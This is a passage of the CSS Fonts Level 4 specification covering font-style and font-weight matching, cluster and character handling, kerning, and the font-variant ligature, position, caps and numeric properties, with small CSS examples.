     > **Example:** Similar to the [previous example](#css-fonts-4:ex-ascending-stretch), here is the conceptual distance graph for an element styled with "font-width: 75%":
     >
     > 
     >
     > As you can see, because font B contains the minimum width value across the entire family, font B would be selected by this algorithm. However, if font B were somehow eliminated from the family, font A would then contain the lowest distance in the family, so it would be selected.
  2. `font-style` is tried next (see [§ 5.2 Matching font styles](#css-fonts-4:font-style-matching)). If a font does not have any concept of varying strengths of italics or oblique angles, its style is mapped according to the description in the `font-style` property definition.

     If the value of `font-style` is `italic`:

    1. If the matching set includes faces with italic values containing the mapped value of `italic`, then faces with italic values which do not include the desired italic mapped value are removed from the matching set.
    2. Otherwise, italic values above the desired italic value are checked in ascending order followed by italic values below the desired italic value, until 0 is hit. Only positive values of italic values are checked in this stage.
    3. For variable fonts with an ital axis, a match is created by setting the ital value to 1.
    4. If no match is found, oblique values greater than or equal to 11deg are checked in ascending order followed by oblique values below 11deg in descending order, until 0 is hit. Only positive values of oblique values are checked in this stage.

       > **Issue:** The threshold for preferring oblique over normal [should be lower than the average angle](https://github.com/w3c/csswg-drafts/issues/2295).
    5. If no match is found, italic values less than or equal to 0 are checked in descending order until a match is found.
    6. If no match is found, oblique values less than or equal to 0deg are checked in descending order until a match is found.

       > **Example:** Similar to the [previous example](#css-fonts-4:ex-ascending-stretch), here is the conceptual distance graph for an element styled with "font-style: italic":
       >
       > 
       >
       > As you can see, because font D contains the minimum italic value across the entire family, font D would be selected by this algorithm. However, if font D were somehow eliminated from the family, font E would then contain the lowest distance in the family, so it would be selected. If E were eliminated, C would be selected. If C were eliminated, font B would not be chosen immediately; instead, oblique values would be consulted and an oblique value might be chosen. However, if no oblique value is chosen, font B would then be selected, followed by font A.

     If the value of `font-style` is `oblique` and the requested angle is greater than or equal to 11deg,

    1. If the matching set includes faces with oblique values containing the value of `oblique`, faces with oblique values which do not include the desired oblique value are removed from the matching set.
    2. Otherwise, oblique values above the desired oblique value are checked in ascending order followed by oblique values below the desired oblique value, until 0 is hit. Only positive values of oblique values are checked in this stage.
    3. For variable fonts with a slnt axis, a match is created by setting the slnt value with the specified oblique value. Otherwise, if `font-synthesis-style` has the value `auto`, then a fallback match is produced by geometric shearing to the specified oblique value. The ital axis is not used to satisfy an `oblique` request.
    4. If no match is found, italic values greater than or equal to 1 are checked in ascending order followed by italic values below 1 in descending order, until 0 is hit. Only positive values of italic values are checked in this stage.
    5. If no match is found, oblique values less than or equal to 0deg are checked in descending order until a match is found.
    6. If no match is found, italic values less than or equal to 0 are checked in descending order until a match is found.

       > **Example:** Similar to the [previous example](#css-fonts-4:ex-ascending-stretch), here is the conceptual distance graph for an element styled with "font-style: oblique 40deg":
       >
       > 
       >
       > As you can see, because font D contains the minimum oblique value across the entire family, font D would be selected by this algorithm. However, if font D were somehow eliminated from the family, font E would then contain the lowest distance in the family, so it would be selected. If E were eliminated, C would be selected. If C were eliminated, font B would not be chosen immediately; instead, italic values would be consulted and an italic value might be chosen. However, if no italic value is chosen, font B would then be selected, followed by font A.

     If the value of `font-style` is `oblique` and the requested angle is greater than or equal to 0deg and less than 11deg,

    1. If the matching set includes faces with oblique values containing the value of `oblique`, faces with oblique values which do not include the desired oblique value are removed from the matching set.
    2. Otherwise, oblique values below the desired oblique value are checked in descending order until 0 is hit, followed by oblique values above the desired oblique value. Only positive values of oblique values are checked in this stage.
    3. For variable fonts with a slnt axis, a match is created by setting the slnt value with the specified oblique value. Otherwise, if `font-synthesis-style` has the value `auto`, then a fallback match is produced by geometric shearing to the specified oblique value. The ital axis is not used to satisfy an `oblique` request.
    4. If no match is found, italic values less than 1 are checked in descending order until 0 is hit, followed by italic values above 1 in ascending order. Only positive values of italic values are checked in this stage.
    5. If no match is found, oblique values less than or equal to 0deg are checked in descending order until a match is found.
    6. If no match is found, italic values less than or equal to 0 are checked in descending order until a match is found.

     > **Example:** Similar to the [previous example](#css-fonts-4:ex-ascending-stretch), here is the conceptual distance graph for an element styled with "font-style: oblique 13deg":
     >
     > 
     >
     > As you can see, because font D contains the minimum oblique value across the entire family, font D would be selected by this algorithm. However, if font D were somehow eliminated from the family, font C would then contain the lowest distance in the family, so it would be selected. If C were eliminated, E would be selected. If E were eliminated, font B would not be chosen immediately; instead, italic values would be consulted and an italic value might be chosen. However, if no italic value is chosen, font B would then be selected, followed by font A.

     If the value of `font-style` is `oblique` and the requested angle is less than 0deg and greater than -11deg, follow the steps [above](#css-fonts-4:lesser-oblique-steps), except with the negated values and opposite directions. If the value of `font-style` is `oblique` and the requested angle is less than or equal to -11deg, follow the steps [above](#css-fonts-4:greater-oblique-steps), except with the negated values and opposite directions.

     If the value of `font-style` is `normal`,

    1. Oblique values greater than or equal to 0 are checked in ascending order.
    2. If no match is found, italic values greater than or equal to 0 are checked in ascending
    3. If no match is found, oblique values less than 0deg are checked in descending order until a match is found.
    4. If no match is found, italic values less than 0 are checked in descending order until a match is found.

     > **Example:** Similar to the [previous example](#css-fonts-4:ex-ascending-stretch), here is the conceptual distance graph for an element styled with "font-style: normal":
     >
     > 
     >
     > As you can see, because font C contains the minimum oblique value across the entire family, font C would be selected by this algorithm. However, if font C were somehow eliminated from the family, font B would not be chosen immediately; instead, italic values would be consulted and an italic value might be chosen. However, if no italic value is chosen, font B would then be selected, followed by font A.

     If an oblique angle was found in the above search, all faces which don’t include that oblique angle are excluded from the matching set. Otherwise, if an italic value was found in the above search, all faces which don’t include that italic value are excluded from the matching set.

     User agents are not required to distinguish between italic and oblique fonts. In such user agents, the `font-style` matching steps above are performed by mapping both italic values and oblique angles onto a common scale. The exact nature of this mapping is undefined, however, an italic value of 1 must map to the same value that an oblique angle of 11deg maps to. Within font families defined via `@font-face` rules, italic and oblique faces must be distinguished using the value of the `font-style` descriptor.

     For families that lack any italic or oblique faces, user agents may create artificial oblique faces, if this is permitted by the value of the `font-synthesis` property.
  3. `font-weight` is matched next. If a font does not have any concept of varying strengths of weights, its weight is mapped according list in the [property definition](#css-fonts-4:font-weight-numeric-values). If bolder/lighter relative weights are used, the effective weight is calculated based on the inherited weight value, as described in the definition of the `font-weight` property. If the matching set after performing the steps above includes faces with weight values containing the font-weight desired value, faces with weight values which do not include the desired font-weight value are removed from the matching set. If there is no face which contains the desired value, a weight value is chosen using the rules below:

    - If the desired weight is inclusively between 400 and 500, weights greater than or equal to the target weight are checked in ascending order until 500 is hit and checked, followed by weights less than the target weight in descending order, followed by weights greater than 500, until a match is found.
    - If the desired weight is less than 400, weights less than or equal to the desired weight are checked in descending order followed by weights above the desired weight in ascending order until a match is found.
    - If the desired weight is greater than 500, weights greater than or equal to the desired weight are checked in ascending order followed by weights below the desired weight in descending order until a match is found.

     > **Example:** Similar to the [previous example](#css-fonts-4:ex-ascending-stretch), here is the conceptual distance graph for an element styled with "font-weight: 400":
     >
     > 
     >
     > As you can see, because font B contains the minimum distance across the entire family, font B would be selected by this algorithm. However, if font B were somehow eliminated from the family, font C would then contain the lowest distance in the family, so it would be selected. If C were eliminated, D would be selected, followed by fonts A and then E.

     > **Example:** Similar to the [previous example](#css-fonts-4:ex-ascending-stretch), here is the conceptual distance graph for an element styled with "font-weight: 450":
     >
     > 
     >
     > As you can see, because font C contains the minimum distance across the entire family, font C would be selected by this algorithm. However, if font C were somehow eliminated from the family, font D would then contain the lowest distance in the family, so it would be selected. If D were also eliminated, B would be selected, followed by fonts A and then E.

     > **Example:** Similar to the [previous example](#css-fonts-4:ex-ascending-stretch), here is the conceptual distance graph for an element styled with "font-weight: 500":
     >
     > 
     >
     > As you can see, because font D contains the minimum distance across the entire family, font D would be selected by this algorithm. However, if font D were somehow eliminated from the family, font B would then contain the lowest distance in the family, so it would be selected. If B were eliminated, C would be selected, followed by fonts B, A, and then E.

     > **Example:** Similar to the [previous example](#css-fonts-4:ex-ascending-stretch), here is the conceptual distance graph for an element styled with "font-weight: 300":
     >
     > 
     >
     > As you can see, because font B contains the minimum distance across the entire family, font B would be selected by this algorithm. However, if font B were somehow eliminated from the family, font A would then contain the lowest distance in the family, so it would be selected. If A were eliminated, C would be selected.

     Once the closest matching weight has been determined by this process, faces with weights which do not include this determined weight are removed from the matching set.

     > **Note:** There is a small behavior change between [CSS-FONTS-3] and this specification with the animation of the `font-weight` property. Previously, interpolated values of font-weight were rounded to their closest multiple of 100, and the font-matching algorithm was run on these rounded values. In this specification, the font-matching algorithm is able to accept any value, so no rounding occurs. The small behavior change is due to the discontinuous nature of the font-matching algorithm.
  4. `font-size` must be matched within a UA-dependent margin of tolerance. (Typically, sizes for scalable fonts are rounded to the nearest whole pixel, while the tolerance for bitmapped fonts could be as large as 20%.) Further computations, e.g., by `em` values in other properties, are based on the `font-size` value that is used, not the one that is specified.

   Note that more than one font might be remaining in the matching set after performing the above steps. If so, the user agent must choose a single font from the matching set and continue these steps with it. The choice of which font to choose can differ between multiple user agents and multiple operating system platforms; however, it must not differ between two elements in the same document.
5. If the matched face is defined via `@font-face` rules, user agents must use the procedure below to select a single font:

  1. If the font resource has not been loaded and the range of characters defined by the `unicode-range` descriptor value includes the character in question, load the font.
  2. After downloading, if the effective character map supports the character in question, select that font.

   When the matched face is a composite face, user agents must use the procedure above on each of the faces in the composite face in reverse order of `@font-face` rule definition.

   While the download occurs, user agents must either wait until the font is downloaded or render once with substituted font metrics and render again once the font is downloaded.
6. If no matching face exists or the matched face does not contain a glyph for the character to be rendered, the next family name is selected and the previous three steps repeated. Glyphs from other faces in the family are not considered. The only exception is that user agents may optionally substitute a synthetically obliqued version of the default face if that face supports a given glyph and synthesis of these faces is permitted by the value of the `font-synthesis` property. For example, a synthetic italic version of the regular face might be used if the italic face doesn’t support glyphs for Arabic.
7. If there are no more font families to be evaluated and no matching face has been found, then the user agent performs an **installed font fallback** procedure to find the best match for the character to be rendered. The result of this procedure can vary across user agents.
8. If a particular character cannot be displayed using any font, the user agent should indicate by some means that a character is not being displayed, displaying either a symbolic representation of the missing glyph (e.g. using a [Last Resort Font](https://en.wikipedia.org/wiki/Last_resort_font)) or using the missing character glyph from a default font.

Optimizations of this process are allowed provided that an implementation behaves as if the algorithm had been followed exactly. Matching occurs in a well-defined order to ensure that the results are as consistent as possible across user agents, given an identical set of available fonts and rendering tech.

The **first available font**, used for example in the definition of font-relative lengths such as `ex` or in the definition of the `line-height` property, is defined to be the first font for which the character U+0020 (space) is not excluded by a `unicode-range`, given the font families in the `font-family` list (or a user agent’s default font if none are available).

Installed fonts referenced directly by family name, rather than via @font-face rules, are considered to have a `unicode-range` that covers the entire Unicode code space.

> **Note:** it does not matter whether that font actually has a glyph for the space character.

#### 5.3.  Cluster matching {#css-fonts-4:cluster-matching}

When text contains characters such as combining marks, ideally the base character should be rendered using the same font as the mark, this assures proper placement of the mark. For this reason, the font matching algorithm for clusters is more specialized than the general case of matching a single character by itself. For sequences containing variation selectors, which indicate the precise glyph to be used for a given character, user agents always attempt installed font fallback to find the appropriate glyph before using the default glyph of the base character.

A sequence of codepoints containing combining mark or other modifiers is termed a grapheme cluster (see [CSS3TEXT] and [UAX29] for a more complete description). For a given cluster containing a base character, *b* and a sequence of combining characters *c1, c2…*, the entire cluster is matched using these steps:

1. For each family in the font list, a face is chosen using the style selection rules defined in the previous section.

  1. If all characters in the sequence *b + c1 + c2 …* are completely supported by the font, select this font for the sequence.
  2. If a sequence of multiple codepoints is canonically equivalent to a single character and the font supports that character, select this font for the sequence and use the glyph associated with the canonically equivalent character for the entire cluster.
2. If no font was found in the font list in step 1:

  1. If *c1* is a variation selector, system fallback must be used to find a font that *supports* the full sequence of *b + c1*. If no font on the system supports the full sequence, match the single character *b* using the normal procedure for matching single characters and ignore the variation selector. Note: a sequence with more than one variation selector must be treated as an encoding error and the trailing selectors must be ignored. [UNICODE]
  2. Otherwise, the user agent may optionally use installed font fallback to match a font that supports the entire cluster.
3. If no font is found in step 2, use the matching sequence from step 1 to determine the longest sequence that is completely supported by a font in the font list and attempt to match the remaining combining characters separately using the rules for single characters.

#### 5.4.  Character handling issues {#css-fonts-4:char-handling-issues}

CSS font matching is always performed on text runs containing Unicode characters [UNICODE], so documents using legacy encodings are assumed to have been transcoded before matching fonts. For fonts containing character maps for both legacy encodings and Unicode, the contents of the legacy encoding character map must have no effect on the results of the font matching process.

The font matching process does not assume that text runs are in either normalized or denormalized form (see [CHARMOD-NORM] for more details). Fonts may only support precomposed forms and not the decomposed sequence of base character plus combining marks. Authors should always tailor their choice of fonts to their content, including whether that content contains normalized or denormalized character streams.

If a given character is a Private-Use Area Unicode codepoint, user agents must only match font families named in the `font-family` list that are not generic families. If none of the families named in the `font-family` list contain a glyph for that codepoint, user agents must display some form of missing glyph symbol for that character rather than attempting installed font fallback for that codepoint. When matching the replacement character U+FFFD, user agents may skip the font matching process and immediately display some form of missing glyph symbol, they are not required to display the glyph from the font that would be selected by the font matching process.

In general, the fonts for a given family will all have the same or similar character maps. The process outlined here is designed to handle even font families containing faces with widely variant character maps. However, authors are cautioned that the use of such families can lead to unexpected results.

### 6.  Font Feature Properties {#css-fonts-4:font-rend-props}

Modern font technologies support a variety of advanced typographic and language-specific font features. Using these features, a single font can provide glyphs for a wide range of ligatures, contextual and stylistic alternates, tabular and old-style figures, small capitals, automatic fractions, swashes, and alternates specific to a given language. To allow authors control over these font capabilities, the `font-variant` property has been expanded. It now functions as a shorthand for a set of properties that provide control over stylistic font features.

#### 6.1.  Glyph selection and positioning {#css-fonts-4:glyph-selection-positioning}

This section is non-normative

Simple fonts used for displaying Latin text use a very basic processing model. Fonts contain a character map which maps each character to a glyph for that character. Glyphs for subsequent characters are simply placed one after the other along a run of text. Modern font formats such as OpenType and AAT (Apple Advanced Typography) use a richer processing model. The glyph for a given character can be chosen and positioned not just based on the codepoint of the character itself, but also on adjacent characters as well as the language, script, and features enabled for the text. Font features may be required for specific scripts, or recommended as enabled by default or they might be stylistic features meant to be used under author control. The point at which font selection and positioning happens in the overall order of text processing operations (such as text transformation, text orientation and text alignment) is described in [CSS Text 3 § A Text Processing Order of Operations](#css-text-4:order).

For a detailed description of glyph processing for OpenType fonts, see [WINDOWS-GLYPH-PROC].

Stylistic font features can be classified into two broad categories: ones that affect the harmonization of glyph shapes with the surrounding context, such as kerning and ligature features, and ones such as the small-caps, subscript/superscript and alternate features that affect shape selection.

The subproperties of `font-variant` listed below are used to control these stylistic font features. They do not control features that are required for displaying certain scripts, such as the OpenType features used when displaying Arabic or Indic language text. They affect glyph selection and positioning, but do not affect font selection as described in the font matching section (except in cases required for compatibility with CSS 2.1).

To assure consistent behavior across user agents, the equivalent OpenType property settings are listed for individual properties and are normative. When using other font formats these should be used as a guideline to map CSS font feature property values to specific font features.

#### 6.2.  Language-specific display {#css-fonts-4:language-specific-support}

OpenType also supports language-specific glyph selection and positioning, so that text can be displayed correctly in cases where the language dictates a specific display behavior. Many languages share a common script, but the shape of certain letters can vary across those languages. For example, certain Cyrillic letters have different shapes in Russian text than in Bulgarian. In Latin text, it’s common to render "fi" with an explicit fi-ligature that lacks a dot on the "i". However, in languages such as Turkish which uses both a dotted-i and a dotless-i, it’s important to not use this ligature or use a specialized version that contains a dot over the "i".

The example below shows language-specific variations based on stylistic traditions found in Spanish, Italian and French orthography:


If the content language of the element is known according to the rules of the [document language](#css2:doclanguage), user agents are required to infer the OpenType language system from the content language and use that when selecting and positioning glyphs using an OpenType font. If a writing system has been explicitly specified, it must take precedence over the customary one implied by the content language.

For OpenType fonts, in some cases it may be necessary to explicitly declare the OpenType language to be used, for example when displaying text in a given language that uses the typographic conventions of another language or when the font does not explicitly support a given language but supports a language that shares common typographic conventions. The `font-language-override` property is used for this purpose.

#### 6.3.  Kerning: the `font-kerning` property {#css-fonts-4:font-kerning-prop}

| Field | Value |
| --- | --- |
| Name: | **font-kerning** |
| [Value:](#css-values-4:value-defs) | auto \| normal \| none |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Kerning is the contextual adjustment of inter-glyph spacing of proportionally-spaced glyphs. It is not intended to apply to fixed-width glyphs, and to do so is an error.

This property controls metric kerning, kerning that utilizes adjustment data contained in the font.

****auto****

: Specifies that kerning is applied, to proportionally-spaced glyphs, at the discretion of the user agent

****normal****

: Specifies that kerning is applied, to proportionally-spaced glyphs

****none****

: Specifies that kerning is not applied

Kerning proportionally-spaced Latin characters

For fonts that do not include kerning data, this property will have no visible effect.

Some CJK fonts have Proportional Alternate Widths; whereby glyphs designed to be set on full-em widths are re-spaced to be proportional. In OpenType, this is enabled with the [palt feature](https://learn.microsoft.com/en-us/typography/opentype/spec/features_pt#palt), or, for vertical typesetting, the [vpal](https://learn.microsoft.com/en-us/typography/opentype/spec/features_uz#vpal) feature.

In that case, if requested, kerning can now be applied to these glyphs. (It is a valid choice to only apply palt or vpal, if requested, and *not* apply kerning).

User agents must also support fonts that only support kerning via data contained in a [kern](https://learn.microsoft.com/en-us/typography/opentype/spec/kern) font table, as detailed in the OpenType specification.

If the `letter-spacing` property is defined, kerning adjustments are considered part of the default spacing and letter spacing adjustments are made *after* kerning has been applied.

When set to `auto`, user agents can determine whether to apply kerning or not based on a number of factors: text size, script, or other factors that influence text processing speed. Authors who want proper kerning should use `normal` to explicitly enable kerning of proportionally-spaced glyphs. Likewise, some authors may prefer to disable kerning in situations where performance is more important than precise appearance. However, in well-designed modern implementations the use of kerning generally does not have a large impact on text rendering speed.

When kerning is enabled, the relevant OpenType kerning features are applied as follows:

##### 6.3.1.  Horizontal kerning {#css-fonts-4:horizontal-kerning}

For horizontal typographic modes and for sideways typesetting in vertical typographic modes:

To **horizontally kern** text using a *font*, making Japanese characters proportional and applying kerning to proportional, non-joining characters:

1. If *font* **does not** support palt

  1. If *font* **does** support kern, use kern, otherwise, do nothing
2. If *font* **does** support palt

  1. Apply palt
  2. If *font* **does** support apkn

    1. If *font* **does** support kern, apply palt, apkn and kern, otherwise, apply palt and apkn
  3. If *font* **does not** support apkn

    1. If *font* **does** support kern, apply palt and kern, otherwise, apply only palt

##### 6.3.2.  Vertical kerning {#css-fonts-4:vertical-kerning}

For upright typesetting in vertical typographic modes:

To **vertically kern** text using a *font*, making Japanese characters proportional and applying kerning to proportional, non-joining characters:

1. If *font* **does not** support vpal

  1. If *font* **does** support vkrn, use vkrn, otherwise, do nothing
2. If *font* **does** support vpal

  1. Apply vpal
  2. If *font* **does** support vapk

    1. If *font* **does** support vkrn, apply vpal, vapk and vkrn, otherwise, apply vpal and vapk
  3. If *font* **does not** support vapk

    1. If *font* **does** support vkrn, apply vpal and vkrn, otherwise, apply only vpal

#### 6.4.  Ligatures: the `font-variant-ligatures` property {#css-fonts-4:font-variant-ligatures-prop}

| Field | Value |
| --- | --- |
| Name: | **font-variant-ligatures** |
| [Value:](#css-values-4:value-defs) | normal \| none \| [ *<common-lig-values>* \|\| *<discretionary-lig-values>* \|\| *<historical-lig-values>* \|\| *<contextual-alt-values>* ] |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Ligatures and contextual forms are ways of combining glyphs to produce more harmonized forms.

```css
<common-lig-values>        = [ common-ligatures | no-common-ligatures ]
```

```css
<discretionary-lig-values> = [ discretionary-ligatures | no-discretionary-ligatures ]
```

```css
<historical-lig-values>    = [ historical-ligatures | no-historical-ligatures ]
```

```css
<contextual-alt-values>    = [ contextual | no-contextual ]
```

Individual values have the following meanings:

****normal****

: A value of `normal` specifies that common default features are enabled, [as described in detail in the next section](#css-fonts-4:font-feature-variation-resolution). For OpenType fonts, common ligatures and contextual forms are on by default, discretionary and historical ligatures are not.

****`none`****

: Specifies that all types of ligatures and contextual forms covered by this property are explicitly disabled. In situations where ligatures are not considered necessary, this *may* improve the speed of text rendering.

****common-ligatures****

: Enables display of common ligatures (OpenType features: liga, clig). For OpenType fonts, common ligatures are enabled by default.

  

****no-common-ligatures****

: Disables display of common ligatures (OpenType features: liga, clig).

****discretionary-ligatures****

: Enables display of discretionary ligatures (OpenType feature: dlig). Which ligatures are discretionary or optional is decided by the type designer, so authors will need to refer to the documentation of a given font to understand which ligatures are considered discretionary.

  

****no-discretionary-ligatures****

: Disables display of discretionary ligatures (OpenType feature: dlig).

****historical-ligatures****

: Enables display of historical ligatures (OpenType feature: hlig).

  

****no-historical-ligatures****

: Disables display of historical ligatures (OpenType feature: hlig).

****contextual****

: Enables display of contextual alternates (OpenType feature: calt). Although not strictly a ligature feature, like ligatures this feature is commonly used to harmonize the shapes of glyphs with the surrounding context. For OpenType fonts, this feature is on by default.

  

****no-contextual****

: Disables display of contextual alternates (OpenType feature: calt).

*Required* ligatures, needed for correctly rendering complex scripts, are not affected by the settings above, including `none` (OpenType feature: rlig).

#### 6.5.  Subscript and superscript forms: the `font-variant-position` property {#css-fonts-4:font-variant-position-prop}

| Field | Value |
| --- | --- |
| Name: | **font-variant-position** |
| [Value:](#css-values-4:value-defs) | normal \| sub \| super |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property is used to enable typographic subscript and superscript glyphs. These are alternate glyphs designed within the same em-box as default glyphs and are intended to be laid out on the same baseline as the default glyphs, with no resizing or repositioning of the baseline. They are explicitly designed to match the surrounding text and to be more readable without affecting the line height.


Subscript glyphs (top) vs. typical synthesized subscripts (bottom)

Individual values have the following meanings:

****normal****

: None of the features listed below are enabled.

****sub****

: Enables display of subscript variants (OpenType feature: subs).

****super****

: Enables display of superscript variants (OpenType feature: sups).

Because of the semantic nature of subscripts and superscripts, when the value is either `sub` or `super` for a given contiguous run of text, if a variant glyph is not available for all the characters in the run, simulated glyphs should be synthesized for all characters using reduced forms of the glyphs that would be used without this feature applied. This is done per run to avoid a mixture of variant glyphs and synthesized ones that would not align correctly. In the case of OpenType fonts that lack subscript or superscript glyphs for a given character, user agents *must* synthesize appropriate subscript and superscript glyphs.


Superscript alternate glyph (left), synthesized superscript glyphs (middle), and incorrect mixture of the two (right)

In situations where text decorations are only applied to runs of text containing superscript or subscript glyphs, the synthesized glyphs may be used, to avoid problems with the placement of decorations.

In the past, user agents have used font-size and vertical-align to simulate subscripts and superscripts for the `sub` and `sup` elements. To allow a backwards compatible way of defining subscripts and superscripts, it is recommended that authors use conditional rules [CSS3-CONDITIONAL] so that older user agents will still render subscripts and superscripts via the older mechanism.

Because `font-size: smaller` is often used for these elements, the effective scaling factor applied to subscript and superscript text varies depending upon the size. For larger text, the font size is often reduced by a third but for smaller text sizes, the reduction can be much less. This allows subscripts and superscripts to remain readable even within elements using small text sizes. User agents should consider this when deciding how to synthesize subscript and superscript glyphs.

> **Note:** The OpenType font format defines subscript and superscript metrics in the [OS/2 table](https://docs.microsoft.com/en-us/typography/opentype/spec/os2) [OPENTYPE] but these are not always accurate in practice and so cannot be relied upon when synthesizing subscript and superscript glyphs.

Authors should note that fonts typically only provide subscript and superscript glyphs for a subset of all characters supported by the font. For example, while subscript and superscript glyphs are often available for Latin numbers, glyphs for punctuation and letter characters are less frequently provided. The synthetic fallback rules defined for this property try to ensure that subscripts and superscripts will always appear but the appearance may not match author expectations if the font used does not provide the appropriate alternate glyph for all characters contained in a subscript or superscript.

This property is not cumulative. Applying it to elements within a subscript or superscript won’t nest the placement of a subscript or superscript glyph. Images contained within text runs where the value of this property is `sub` or `super` will be drawn just as they would if the value was `normal`.

Because of these limitations, `font-variant-position` is not recommended for use in user agent stylesheets. Authors should use it in cases where subscripts or superscripts will only contain the narrow range of characters supported by the fonts specified.

> **Note:** The variant glyphs use the same baseline as the default glyphs would use. There is no shift in the placement along the baseline, so the use of variant glyphs doesn’t affect the height of the inline box or alter the height of the linebox. This makes superscript and subscript variants ideal for situations where it’s important that leading remain constant, such as in multi-column layout.

> **Example:** A typical user agent default style for the sub element:
>
> ```
> sub {
>       vertical-align: sub;
>       font-size: smaller;
>       line-height: normal;
>     }
> ```
>
> Using `font-variant-position` to specify typographic subscripts in a way that will still show subscripts in older user agents:
>
> ```
> @supports ( font-variant-position: sub ) {
>       sub {
>         vertical-align: baseline;
>         font-size: 100%;
>         line-height: inherit;
>         font-variant-position: sub;
>       }
>     }
> ```
>
> User agents that support the `font-variant-position` property will select a subscript variant glyph and render this without adjusting the baseline or font-size. Older user agents will ignore the `font-variant-position` property definition and use the standard defaults for subscripts.

#### 6.6.  Capitalization: the `font-variant-caps` property {#css-fonts-4:font-variant-caps-prop}

| Field | Value |
| --- | --- |
| Name: | **font-variant-caps** |
| [Value:](#css-values-4:value-defs) | normal \| small-caps \| all-small-caps \| petite-caps \| all-petite-caps \| unicase \| titling-caps |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property allows the selection of alternate glyphs used for small or petite capitals or for titling. These glyphs are specifically designed to blend well with the surrounding normal glyphs, to maintain the weight and readability which suffers when text is simply resized to fit this purpose.

Individual values have the following meanings:

****normal****

: None of the features listed below are enabled.

****small-caps****

: Enables display of small capitals (OpenType feature: smcp). Small-caps glyphs typically use the form of uppercase letters but are reduced to the size of lowercase letters.

  

****all-small-caps****

: Enables display of small capitals for both upper and lowercase letters (OpenType features: c2sc, smcp).

****petite-caps****

: Enables display of petite capitals (OpenType feature: pcap).

****all-petite-caps****

: Enables display of petite capitals for both upper and lowercase letters (OpenType features: c2pc, pcap).

****unicase****

: Enables display of mixture of small capitals for uppercase letters with normal lowercase letters (OpenType feature: unic).

****titling-caps****

: Enables display of titling capitals (OpenType feature: titl). Uppercase letter glyphs are often designed for use with lowercase letters. When used in all uppercase titling sequences they can appear too strong. Titling capitals are designed specifically for this situation.

The availability of these glyphs is based on whether a given feature is defined or not in the feature list of the font. User agents can optionally decide this on a per-script basis but should explicitly not decide this on a per-character basis.

Some fonts may only support a subset or none of the features described for this property. For backwards compatibility with CSS 2.1, if `small-caps` or `all-small-caps` is specified but small-caps glyphs are not available for a given font, user agents should simulate a small-caps font, for example by taking a normal font and replacing the glyphs for lowercase letters with scaled versions of the glyphs for uppercase characters (replacing the glyphs for both upper and lowercase letters in the case of `all-small-caps`).


Synthetic vs. real small-caps

The `font-feature-settings` property also affects the decision of whether or not to use a simulated small-caps font (unlike CSS Fonts 3).

> **Example:** ```
> #example1 { font-variant-caps: small-caps; }
>       #example2 { font-variant-caps: small-caps; font-feature-settings: 'smcp' 0; }
> ```
>
> For fonts which don’t support small caps, both #example1 and #example2 should be rendered with synthesized small caps. However, for fonts which do support small caps, #example1 should be rendered with native small caps, while #example2 should be rendered without any small-caps (native or synthesized).

To match the surrounding text, a font may provide alternate glyphs for caseless characters when these features are enabled but when a user agent simulates small capitals, it must not attempt to simulate alternates for codepoints which are considered caseless.


Caseless characters with small-caps, all-small-caps enabled

If either `petite-caps` or `all-petite-caps`' is specified for a font that doesn’t support these features, the property behaves as if `small-caps` or `all-small-caps`, respectively, had been specified. If `unicase` is specified for a font that doesn’t support that feature, the property behaves as if `small-caps` was applied only to lowercased uppercase letters. If `titling-caps` is specified with a font that does not support this feature, this property has no visible effect. When simulated small capital glyphs are used, for scripts that lack uppercase and lowercase letters, `small-caps`, `all-small-caps`, `petite-caps`, `all-petite-caps` and `unicase` have no visible effect.

When casing transforms are used to simulate small capitals, the casing transformations must match those used for the `text-transform` property.

As a last resort, unscaled uppercase letter glyphs in a normal font may replace glyphs in a small-caps font so that the text appears in all uppercase letters.


Using small capitals to improve readability in acronym-laden text

> **Example:** Quotes rendered italicized, with small-caps on the first line:
>
> ```
> blockquote            { font-style: italic; }
>     blockquote:first-line { font-variant: small-caps; }
>
>     <blockquote>I'll be honor-bound to slap them like a haddock.</blockquote>
> ```

#### 6.7.  Numerical formatting: the `font-variant-numeric` property {#css-fonts-4:font-variant-numeric-prop}

| Field | Value |
| --- | --- |
| Name: | **font-variant-numeric** |
| [Value:](#css-values-4:value-defs) | normal \| [ `<numeric-figure-values>` \|\| `<numeric-spacing-values>` \|\| `<numeric-fraction-values>` \|\| ordinal \|\| slashed-zero ] |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Specifies control over numerical forms. The example below shows how some of these values can be combined to influence the rendering of tabular data with fonts that support these features. Within normal paragraph text, proportional numbers are used while tabular numbers are used so that columns of numbers line up properly:


Using number styles

Possible combinations:

```css
<numeric-figure-values>   = [ lining-nums | oldstyle-nums ]
```

```css
<numeric-spacing-values>  = [ proportional-nums | tabular-nums ]
